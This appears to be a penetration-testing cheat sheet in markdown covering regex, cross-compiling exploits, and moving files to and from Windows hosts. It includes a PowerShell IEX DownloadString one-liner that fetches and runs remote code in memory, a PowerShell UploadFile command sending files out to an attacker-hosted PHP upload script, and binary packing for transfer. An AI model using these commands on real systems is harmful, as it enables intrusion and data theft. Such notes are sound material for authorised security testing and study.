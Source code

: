 # Miscelaneous

#### :red_circle: Usefull Regex

##### Find subdomains in a tect file (html usually):

```bash

grep -o '[^/]*\.$DOMAIN\.com' $FILE
#-o  returns the string defined in our regular expression
```
##### Create symbolik link:

```bash
ln -s $TARGET $LINKNAME
```

_____
## Compiling exploits

There are times that we are on Linux and some exploits needs to compile from a Windows machine (requieres dependencies). In this case, we can use a cross-compiler to help in the way:

```bash
#Install:
apt install mingw-w64

#Usage:
i686-w64-mingw32-gcc $EXPLOITFILENAME.c -o $OUTPUTNAME.exe
#In case of error, try adding the flag: -lws2_32
```

**Note:** It's always better to do it on it's own platform.

_____

## Package Python applications

Python code requieres an interpreter in order to execute it's instructions. This means we need python to be installed in a machine that we want to run a python script.

We can use **PyInstaller** which packages python applications into standalone executables for various OS.

_____

## Downloading files from Windows

#### Using Powershell one-liner:

```bash
powershell.exe (New-Object System.Net.WebClient).DownloadFile('$URLOFFILE', '$NEWFILENAME')
```

If we want to download and execute the same file but not saving it to the disk, use:

```bash
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('$URLOFFILE')
```

#### Using exe2hex & powershell

First of all, optimize the file we want to transfer by using upx:

```bash
upx -9 $FILE
```

Now use exe2hex to convert the file:

```bash
exe2hex -x $FILE -p $RESULTFILENAME.cmd
#This creates a script with .cmd extension
```

Now we only need to copy and paste the script into a Windows shell.

_____

## Windows Uploads

If we want to transfer files, in this case from Windows to linux, we can use some of the following techniques:

#### Hosting an uploads.php file

**Step 1:** Create the following php file on Kali:

```bash
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) ?>
```

**Step 2:** Create the 'uploads' directory and set owner permissions to www-data:

```bash
mkdir /var/www/uploads && chown www-data: /var/www/uploads
```

**Step 3:** Upload the file executing the following command in a Windows cmd:

```bash
powershell (New-Object System.Net.WebClient).UploadFile('http://$IPADDRESS/uploads.php', '$FILETOUPLOAD')
```
